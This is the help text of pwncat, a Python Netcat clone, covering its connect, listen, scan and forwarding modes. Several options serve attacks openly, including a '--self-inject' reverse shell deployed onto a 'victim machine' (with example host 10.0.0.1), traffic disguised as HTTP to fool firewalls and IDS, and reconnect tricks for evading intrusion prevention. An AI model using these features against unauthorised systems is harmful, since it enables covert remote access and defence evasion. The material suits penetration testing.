 *****
Usage
*****


.. code-block:: bash

   usage: pwncat [options] hostname port
          pwncat [options] -l [hostname] port
          pwncat [options] -z hostname port
          pwncat [options] -L [addr:]port hostname port
          pwncat [options] -R addr:port hostname port
          pwncat -V, --version
          pwncat -h, --help


   Enhanced and comptaible Netcat implementation written in Python (2 and 3) with
   connect, zero-i/o, listen and forward modes and techniques to detect and evade
   firewalls and intrusion detection/prevention systems.

   If no mode arguments are specified, pwncat will run in connect mode and act as
   a client to connect to a remote endpoint. If the connection to the remote
   endoint is lost, pwncat will quit. See options for how to automatically re-
   connect.

   positional arguments:
     hostname              Address to listen, forward, scan or connect to.

     port                  [All modes]
                           Single port to listen, forward or connect to.
                           [Zero-I/O mode]
                           Specify multiple ports to scan:
                           Via list:  4444,4445,4446
                           Via range: 4444-4446
                           Via incr:  4444+2

   mode arguments:
     -l, --listen          [Listen mode]:
                           Start a server and listen for incoming connections.
                           If using TCP and a connected client disconnects or the
                           connection is interrupted otherwise, the server will
                           quit. See -k/--keep-open to change this behaviour.

     -z, --zero            [Zero-I/0 mode]:
                           Connect to a remote endpoint and report status only.
                           Used for port scanning.
                           See --banner for version detection.

     -L [addr:]port, --local [addr:]port
                           [Local forward mode]:
                           This mode will start a server and a client internally.
                           The internal server will listen locally on specified
                           addr/port (given by --local [addr:]port).
                           The server will then forward traffic to the internal
                           client which connects to another server specified by
                           hostname/port given via positional arguments.
                           (I.e.: proxies a remote service to a local address)

     -R addr:port, --remote addr:port
                           [Remote forward mode]:
                           This mode will start two clients internally. One is
                           connecting to the target and one is connecting to
                           another pwncat/netcat server you have started some-
                           where. Once connected, it will then proxy traffic
                           between you and the target.
                           This mode should be applied on machines that block
                           incoming traffic and only allow outbound.
                           The connection to your listening server is given by
                           -R/--remote addr:port and the connection to the
                           target machine via the positional arguments.

   optional arguments:
     -e cmd, --exec cmd    Execute shell command. Only for connect or listen mode.

     -C lf, --crlf lf      Specify, 'lf', 'crlf' or 'cr' to always force replacing
                           line endings for input and outout accordingly. Specify
                           'no' to completely remove any line feeds. By default
                           it will not replace anything and takes what is entered
                           (usually CRLF on Windows, LF on Linux and some times
                           CR on MacOS).

     -n, --nodns           Do not resolve DNS.

     --send-on-eof         Buffer data received on stdin until EOF and send
                           everything in one chunk.

     --no-shutdown         Do not shutdown into half-duplex mode.
                           If this option is passed, pwncat won`t invoke shutdown
                           on a socket after seeing EOF on stdin. This is provided
                           for backward-compatibility with OpenBSD netcat, which
                           exhibits this behavior.

     -v, --verbose         Be verbose and print info to stderr. Use -v, -vv, -vvv
                           or -vvvv for more verbosity. The server performance will
                           decrease drastically if you use more than three times.

     --info type           Show additional info about sockets, IPv4/6 or TCP opts
                           applied to the current socket connection. Valid
                           parameter are 'sock', 'ipv4', 'ipv6', 'tcp' or 'all'.
                           Note, you must at least be in INFO verbose mode in order
                           to see them (-vv).

     -c str, --color str   Colored log output. Specify 'always', 'never' or 'auto'.
                           In 'auto' mode, color is displayed as long as the output
                           goes to a terminal. If it is piped into a file, color
                           will automatically be disabled. This mode also disables
                           color on Windows by default. (default: auto)

     --safe-word str       All modes:
                           If pwncat is started with this argument, it will shut
                           down as soon as it receives the specified string. The
                           --keep-open (server) or --reconn (client) options will
                           be ignored and it won't listen again or reconnect to you.
                           Use a very unique string to not have it shut down
                           accidentally by other input.

   protocol arguments:
     -4                    Only Use IPv4 (default: IPv4 and IPv6 dualstack).

     -6                    Only Use IPv6 (default: IPv4 and IPv6 dualstack).

     -u, --udp             Use UDP for the connection instead of TCP.

     -T str, --tos str     Specifies IP Type of Service (ToS) for the connection.
                           Valid values are the tokens 'mincost', 'lowcost',
                           'reliability', 'throughput' or 'lowdelay'.

     --http                Connect / Listen mode (TCP and UDP):
                           Hide traffic in http packets to fool Firewalls/IDS/IPS.

     --https               Connect / Listen mode (TCP and UDP):
                           Hide traffic in https packets to fool Firewalls/IDS/IPS.

     -H [str [str ...]], --header [str [str ...]]
                           Add HTTP headers to your request when using --http(s).

   command & control arguments:
     --self-inject cmd:host:port[s]
                           Listen mode (TCP only):
                           If you are about to inject a reverse shell onto the
                           victim machine (via php, bash, nc, ncat or similar),
                           start your listening server with this argument.
                           This will then (as soon as the reverse shell connects)
                           automatically deploy and background-run an unbreakable
                           pwncat reverse shell onto the victim machine which then
                           also connects back to you with specified arguments.
                           Example: '--self-inject /bin/bash:10.0.0.1:4444'
                           It is also possible to launch multiple reverse shells by
                           specifying multiple ports.
                           Via list:  --self-inject /bin/sh:10.0.0.1:4444,4445,4446
                           Via range: --self-inject /bin/sh:10.0.0.1:4444-4446
                           Via incr:  --self-inject /bin/sh:10.0.0.1:4444+2
                           Note: this is currently an experimental feature and does
                           not work on Windows remote hosts yet.

   pwncat scripting engine:
     --script-send file    All modes (TCP and UDP):
                           A Python scripting engine to define your own custom
                           transformer function which will be executed before
                           sending data to a remote endpoint. Your file must
                           contain the exact following function which will:
                           be applied as the transformer:
                           def transform(data, pse):
                               # NOTE: the function name must be 'transform'
                               # NOTE: the function param name must be 'data'
                               # NOTE: indentation must be 4 spaces
                               # ... your transformations goes here
                               return data
                           You can also define as many custom functions or classes
                           within this file, but ensure to prefix them uniquely to
                           not collide with pwncat's function or classes, as the
                           file will be called with exec().

     --script-recv file    All modes (TCP and UDP):
                           A Python scripting engine to define your own custom
                           transformer function which will be executed after
                           receiving data from a remote endpoint. Your file must
                           contain the exact following function which will:
                           be applied as the transformer:
                           def transform(data, pse):
                               # NOTE: the function name must be 'transform'
                               # NOTE: the function param name must be 'data'
                               # NOTE: indentation must be 4 spaces
                               # ... your transformations goes here
                               return data
                           You can also define as many custom functions or classes
                           within this file, but ensure to prefix them uniquely to
                           not collide with pwncat's function or classes, as the
                           file will be called with exec().

   zero-i/o mode arguments:
     --banner              Zero-I/O (TCP and UDP):
                           Try banner grabbing during port scan.

   listen mode arguments:
     -k, --keep-open       Listen mode (TCP only):
                           Re-accept new clients in listen mode after a client has
                           disconnected or the connection is unterrupted otherwise.
                           (default: server will quit after connection is gone)

     --rebind [x]          Listen mode (TCP and UDP):
                           If the server is unable to bind, it will re-initialize
                           itself x many times before giving up. Omit the
                           quantifier to rebind endlessly or specify a positive
                           integer for how many times to rebind before giving up.
                           See --rebind-robin for an interesting use-case.
                           (default: fail after first unsuccessful try).

     --rebind-wait s       Listen mode (TCP and UDP):
                           Wait x seconds between re-initialization. (default: 1)

     --rebind-robin port   Listen mode (TCP and UDP):
                           If the server is unable to initialize (e.g: cannot bind
                           and --rebind is specified, it it will shuffle ports in
                           round-robin mode to bind to.
                           Use comma separated string such as '80,81,82,83', a range
                           of ports '80-83' or an increment '80+3'.
                           Set --rebind to at least the number of ports to probe +1
                           This option requires --rebind to be specified.

   connect mode arguments:
     --source-addr addr    Specify source bind IP address for connect mode.

     --source-port port    Specify source bind port for connect mode.

     --reconn [x]          Connect mode (TCP and UDP):
                           If the remote server is not reachable or the connection
                           is interrupted, the client will connect again x many
                           times before giving up. Omit the quantifier to retry
                           endlessly or specify a positive integer for how many
                           times to retry before giving up.
                           (default: quit if the remote is not available or the
                           connection was interrupted)
                           This might be handy for stable TCP reverse shells ;-)
                           Note on UDP:
                           By default UDP does not know if it is connected, so
                           it will stop at the first port and assume it has a
                           connection. Consider using --udp-sconnect with this
                           option to make UDP aware of a successful connection.

     --reconn-wait s       Connect mode (TCP and UDP):
                           Wait x seconds between re-connects. (default: 1)

     --reconn-robin port   Connect mode (TCP and UDP):
                           If the remote server is not reachable or the connection
                           is interrupted and --reconn is specified, the client
                           will shuffle ports in round-robin mode to connect to.
                           Use comma separated string such as '80,81,82,83', a range
                           of ports '80-83' or an increment '80+3'.
                           Set --reconn to at least the number of ports to probe +1
                           This helps reverse shell to evade intrusiona prevention
                           systems that will cut your connection and block the
                           outbound port.
                           This is also useful in Connect or Zero-I/O mode to
                           figure out what outbound ports are allowed.

     --ping-init           Connect mode (TCP and UDP):
                           UDP is a stateless protocol unlike TCP, so no hand-
                           shake communication takes place and the client just
                           sends data to a server without being "accepted" by
                           the server first.
                           This means a server waiting for an UDP client to
                           connect to, is unable to send any data to the client,
                           before the client hasn't send data first. The server
                           simply doesn't know the IP address before an initial
                           connect.
                           The --ping-init option instructs the client to send one
                           single initial ping packet to the server, so that it is
                           able to talk to the client.
                           This is a way to make a UDP reverse shell work.
                           See --ping-word for what char/string to send as initial
                           ping packet (default: '\0')

     --ping-intvl s        Connect mode (TCP and UDP):
                           Instruct the client to send ping intervalls every s sec.
                           This allows you to restart your UDP server and just wait
                           for the client to report back in. This might be handy
                           for stable UDP reverse shells ;-)
                           See --ping-word for what char/string to send as initial
                           ping packet (default: '\0')

     --ping-word str       Connect mode (TCP and UDP):
                           Change the default character '\0' to use for upd ping.
                           Single character or strings are supported.

     --ping-robin port     Connect mode (TCP and UDP):
                           Instruct the client to shuffle the specified ports in
                           round-robin mode for a remote server to ping.
                           This might be handy to scan outbound allowed ports.
                           Use comma separated string such as '80,81,82,83', a range
                           of ports '80-83' or an increment '80+3'.
                           Use --ping-intvl 0 to be faster.

     --udp-sconnect        Connect mode (UDP only):
                           Emulating stateful behaviour for UDP connect phase by
                           sending an initial packet to the server to validate if
                           it is actually connected.
                           By default, UDP will simply issue a connect and is not
                           aware if it is really connected or not.
                           The default connect packet to be send is '\0', you
                           can change this with --udp-sconnect-word.

     --udp-sconnect-word [str]
                           Connect mode (UDP only):
                           Change the the data to be send for UDP stateful connect
                           behaviour. Note you can also omit the string to send an
                           empty packet (EOF), but be aware that some servers such
                           as netcat will instantly quit upon receive of an EOF
                           packet.
                           The default is to send a null byte sting: '\0'.

   misc arguments:
     -h, --help            Show this help message and exit
     -V, --version         Show version information and exit
